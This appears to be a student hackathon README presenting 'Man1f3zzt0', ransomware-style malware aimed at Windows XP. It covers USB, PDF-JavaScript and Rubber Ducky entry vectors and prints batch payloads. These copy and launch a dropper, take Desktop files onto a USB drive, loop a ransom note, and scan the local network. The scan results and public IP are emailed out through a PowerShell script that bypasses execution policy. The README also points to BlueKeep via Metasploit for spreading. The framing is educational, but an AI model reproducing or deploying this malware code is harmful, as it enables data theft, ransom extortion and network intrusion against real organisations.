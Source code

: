 # Man1f3zzt0

## Made by Ellioth Denzel Romero Martinez, Luis Daniel Filorio Luna, Miguel Soria, Omar Emiliano Sanchez Villegas, Sofia Moreno Lopez.

This piece of malware was created for a pseudo hackathon that aimed to teach students interested in cybersecurity how malware compromised big industry systems, especially legacy systems. 
The challenge proposed a case study where a pharmaceutical company let 3 threat actors posed as students enter their headquarters, and through social engineering managed to enter a usb into an employees computer. They printed a pdf file that was downloaded into the computer and after they left the first computer started showing a ransom note and lost access to its files. 
After some minutes the same started happening in other branches near the main HQ and after an hour it managed to infect their whole system.

The challenge was proposing a recovery plan and figuring out how they propagated through the system and compromised it, in an effort to give the best and most plausible solution my team and I got into the shoes of the threat actors and designed a malware to attack a windows xp system, there was no information about what system they were using but they challenge specified it was at least 20 years old and to this day windows xp is widely used around the world.

![windows xp](./images/windows_xp.png)

In the recon phase of the development we found 3 potential entry vectors, a misconfiguration of .inf files entering a system, a rubber ducky posing as a mass storage device and adobe acrobat executing JavaScript code embedded in pdf files.

These 3 entry vectors had one goal, to execute a malicious batch file that would copy our main malware into the system and execute it. The malicious file would then wait for 15 minutes before executing so the threat actors could exit the building.

## FIrst entry vector .inf files in the root of a usb - semi successful 

When a .inf file is in the root directory of a usb, it can run files instantly when placed inside a windows xp machine.
This vector proved somehow successful in early versions of windows XP, especially before windows xp SP2. The reason this wasn't our entry vector is that most configurations of windows xp for large systems have a registry that prompts a user input when a .inf is detected in the root directory of a usb system.

![windows xp regitry gui](./images/registry_edit.png)
## Second entry vector Javascript code inside PDF - semi successful 

Most of the versions of Adobe Acrobat Reader that were built for Windows XP by default run JavaScript code embedded inside of any pdf file. 
Our first approach to this entry vector was successful, we managed to display an alert on the machine symply by opening the file on Adobe Acrobat and Windows Explorer.
![image showing pdf altert saying hola denzle](./images/JS_POC.jpeg)
This seemed like the best way to enter the system, but then when designing and testing a different payload that used the JS ActiveXObject constructor to call cmd commands, we got an error detailing that ActiveXObject was not declared in the system. 
![image showing error ActiveObjectX not defined](./images/active_objectx_not.jpeg)
With short time we tried using a different version of windows xp but the error kept happening, it wasn't solved even after letting adobe acrobat have every unsafe permission. 
With little time left we needed to change approaches.

## Third entry vector rubber ducky posing as mass storage device - ULTRA SUCCESSFUL

To this day this is one of the most efficient entry vectors, the only downside is you need physical access to the system you are trying to pawn and the case study told us the threat actors did, even though this was the most efficient approach we made it our last resource as we knew we could develop the script pretty easily. 

We used a HAK5 rubber ducky and payload studio pro to develop the simple chain of keystrokes that would run in the background as the pdf file was opened. 

![payload studio](./images/payload_studio.png)
This simple keystroke injection opened the doors to our payload. 


## Payload 

Our payload consisted of 3 batch files.  Each with its unique function. 

Our first batch file was made so we could run code even after unplugging the usb from the target machine. It copies our main caller into the desktop and executes it. 
We used system variables that got the username from the system and used it to define the PATH to the desktop, with this we didn't need to worry about knowing and hard coding the username.

```

xcopy "%~dp0\maincaller.bat" "%userprofile%\Desktop\" /Y
start "" "%userprofile%\Desktop\maincaller.bat"

```



The second batch file is a little more complex, firstly copies everything from the desktop into a file inside our usb.

```

@echo off
setlocal

:: Set variables
set USB_DRIVE=E:  :: Change this to the letter of your USB drive
set DESKTOP_DIR=%USERPROFILE%\Desktop
set DEST_DIR=%USB_DRIVE%\DesktopBackup
set FINAL_SCRIPT=%USB_DRIVE%\final_script.bat
set WAIT_TIME=60  :: Time to wait in seconds

:: Create destination directory on USB drive
if not exist %DEST_DIR% mkdir %DEST_DIR%

:: Copy Desktop contents to USB drive
xcopy "%DESKTOP_DIR%\*" "%DEST_DIR%\" /E /H /C /I

```

After this it will start a timeout to wait for the threat actors to leave the building
It will delete everything and start a cmd file that shows the ransom note.

```

ping -n 240 127.0.0.1
start cmd /c "main.bat"

:monitor

REM Delay for 2 seconds
ping -n 30 127.0.0.1 >nul

start cmd /c "man1f3zzt0.bat"

goto monitor

```

## Lateral movement 

The next part is only a prove of concept as we were running out of time. 
We will use the simple mail transfer protocol to send all of the local ips that are currently in use.

Firstly we ping all of the possible local ips using a CIDR of /24. 
If they respond we save it to a local variable and continue until finished.
After this we curl to http://ipinfo.io/ip, this will give us the public ip address of this network.

```

@echo off
setlocal

:: Set variables
set NETWORK_BASE=192.168.1.  :: Change this to your network base
set OUTPUT_FILE=%TEMP%\network_scan_results.txt
set PUBLIC_IP_FILE=%TEMP%\public_ip.txt
set EMAIL_TO=someone@example.com  :: Change this to the recipient's email address
set EMAIL_SUBJECT="Network Scan Results"
set SMTP_SERVER=smtp.example.com  :: Change this to your SMTP server
set SMTP_PORT=587                 :: Change this to your SMTP server port
set SMTP_USERNAME=your_email@example.com  :: Change this to your email
set SMTP_PASSWORD=your_password   :: Change this to your email password

:: Clear previous output files
if exist %OUTPUT_FILE% del %OUTPUT_FILE%
if exist %PUBLIC_IP_FILE% del %PUBLIC_IP_FILE%

:: Get public IP address
echo Retrieving public IP address...
curl -s http://ipinfo.io/ip > %PUBLIC_IP_FILE%

:: Scan the network
echo Scanning the network...
for /L %%i in (1,1,254) do (
    ping -n 1 -w 1000 %NETWORK_BASE%%%i | find "Reply from" >> %OUTPUT_FILE%
)

:: Append public IP to output file
echo Public IP Address: >> %OUTPUT_FILE%
type %PUBLIC_IP_FILE% >> %OUTPUT_FILE%

```


We package all of this and send it to a properly configured gmail address. 

```
:: Prepare PowerShell script to send email
set PS_SCRIPT=%TEMP%\send_email.ps1
echo $EmailFrom = "%SMTP_USERNAME%" > %PS_SCRIPT%
echo $EmailTo = "%EMAIL_TO%" >> %PS_SCRIPT%
echo $Subject = "%EMAIL_SUBJECT%" >> %PS_SCRIPT%
echo $Body = "Find the attached network scan results." >> %PS_SCRIPT%
echo $SMTPServer = "%SMTP_SERVER%" >> %PS_SCRIPT%
echo $SMTPPort = %SMTP_PORT% >> %PS_SCRIPT%
echo $SMTPUser = "%SMTP_USERNAME%" >> %PS_SCRIPT%
echo $SMTPPass = "%SMTP_PASSWORD%" >> %PS_SCRIPT%
echo $Attachment = "%OUTPUT_FILE%" >> %PS_SCRIPT%
echo $Message = New-Object System.Net.Mail.MailMessage $EmailFrom, $EmailTo, $Subject, $Body >> %PS_SCRIPT%
echo $SMTP = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort) >> %PS_SCRIPT%
echo $SMTP.EnableSsl = $true >> %PS_SCRIPT%
echo $SMTP.Credentials = New-Object System.Net.NetworkCredential($SMTPUser, $SMTPPass) >> %PS_SCRIPT%
echo $Message.Attachments.Add((New-Object System.Net.Mail.Attachment($Attachment))) >> %PS_SCRIPT%
echo $SMTP.Send($Message) >> %PS_SCRIPT%

:: Execute the PowerShell script
powershell -ExecutionPolicy Bypass -File %PS_SCRIPT%

:: Clean up
del %OUTPUT_FILE%
del %PUBLIC_IP_FILE%
del %PS_SCRIPT%
endlocal

```


With all this info we can use the msfconsole to exploit the [CVE-2019-0708](https://nvd.nist.gov/vuln/detail/cve-2019-0708)

![msf console on parrot vm](./images/bluekeep_msfconsole.png)

This vulnerability allows remote code execution and makes it extremely easy to propagate through the whole system.

All of this was made by my team and i in less than 20 hours, we learned a lot and are happy with the final product. 

